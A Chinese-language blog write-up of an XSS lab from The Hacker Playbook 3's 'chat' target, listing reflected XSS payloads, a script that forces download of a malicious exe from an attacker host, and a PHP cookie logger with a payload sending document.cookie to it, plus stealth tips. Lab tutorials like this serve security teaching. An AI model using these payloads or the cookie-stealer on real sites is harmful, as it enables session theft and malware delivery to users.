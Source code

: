 ```yaml
---
title: 渗透实战第三版实验csk-web之XSS
categories:
- web
tags:
- web
---
```


参考资料：
下载地址：
- http://thehackerplaybook.com/get.php?type=csk-web

`echo 目标机器的ip chat >> /etc/hosts`

首先我们看下这个网站，注册一个账号并登陆。网页上有一些存在漏洞的提示。

![59](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-16-07/59.PNG)

## 反射型XSS

`http://chat:3000/chatchannel/1`

反射型XSS是最简单的xss，因为网页没有过滤用户输入，或者过滤不完全，导致用户可以输入js语句，根据js语句的不同，可以任意执行js代码。

### 案例一，script标签
`<script>alert('xss')</script>`

![60](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-16-07/60.PNG)

### 案例二，过滤script标签的情况

`<svg onload=alert(1788)>`

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-16-07/2.PNG)

### 案例三，点击弹窗
`<b onmouseover=alert('XSS')>Click Me!</b>`
一旦鼠标移到Click Me!，就提示xss

---

一旦点击就弹窗
```
<script>window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script>

<body onload="alert('XSS')">
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-16-07/3.PNG)

### 案例四，跳转并文件下载
kali准备恶意代码exe，并开启web服务：
```
python -m SimpleHTTPServer 8001
```

kali的ip为192.168.159.129

访问路径为：`http://192.168.159.129:8001/test.exe`

在页面上输入以下代码：
```
<script>var link = document.createElement('a'); link.href = 'http://192.168.159.129:8001/test.exe'; link.download = ''; document.body.appendChild(link); link.click();</script>
```
于是客户端就会跳转到这个下载地址，http://192.168.159.129:8001/test.exe

这个跳转并文件下载要配合存储型xss。


### 案例五：cookie窃取
将下面的php代码保存为cookie.php
```
<?php
header ('Location:https://google.com');
$cookies =$_GET["c"];
$file = fopen('log.txt','a');
fwrite($file, $cookies . "\n\n");
?>

注意第二行header()，不能删除，如果没有这一行，那么目标点击窃取cookie的恶意链接，就会访问http://192.168.159.129:8002/cookie.php?c=xxxxx
这样很容易被发现。
```
然后用php开启web服务，

php -S 192.168.159.129:8002

这是kali的地址：http://192.168.159.129:8002/cookie.php

存在漏洞的页面输入以下代码：
```
<script>document.location="http://192.168.159.129:8002/cookie.php?c="+document.cookie</script>
```
![61](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-16-07/61.PNG)

成功获取到了admin账号的cookie。

但是这里有个问题，就是使用cookie登陆时候，发现cookie失效的时间太短了。

![62](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-16-07/62.PNG)
经过数次尝试，因为输入窃取cookie的js代码，会跳转到`google.com`，这会导致用户的cookie退出网页，使得cookie直接失效。。

要注意的是，速度要快。。cookie过期跟服务端的网页设置有关。
![63](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-16-07/63.PNG)


